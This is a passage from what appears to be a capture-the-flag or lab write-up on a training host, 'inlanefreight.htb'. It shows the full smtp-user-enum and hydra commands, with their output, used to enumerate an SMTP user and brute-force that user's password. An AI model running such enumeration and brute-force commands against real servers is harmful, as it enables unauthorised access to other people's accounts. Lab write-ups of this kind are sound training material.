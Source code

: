 As we can see we have plenty of ports opened. 
I tried ftp, mysql, but they seem to be used later
For know I started to enumerate smtp service and for that I user smtp-user-enum tool:
```c
smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t 10.129.203.7  
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... RCPT
Worker Processes ......... 5
Usernames file ........... users.list
Target count ............. 1
Username count ........... 79
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ inlanefreight.htb

######## Scan started at Sun Oct  6 22:09:34 2024 #########
10.129.203.7: fiona@inlanefreight.htb exists
######## Scan completed at Sun Oct  6 22:10:11 2024 #########
1 results.

79 queries in 37 seconds (2.1 queries / sec)

```

So we found the username and now it's time to get the password with hydra:
```c
hydra -l fiona@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt -t 64 -f 10.129.203.7 smtp 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-06 22:18:32
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking smtp://10.129.203.7:25/
[25][smtp] host: 10.129.203.7   login: fiona@inlanefreight.htb   password: 987654321
[STATUS] attack finished for 10.129.203.7 (valid pair found)
1 of 1 target successfully completed, 1 valid password found

```

We got the creds:
```c
username:fiona@inlanefreight.htb
password:987654321
```
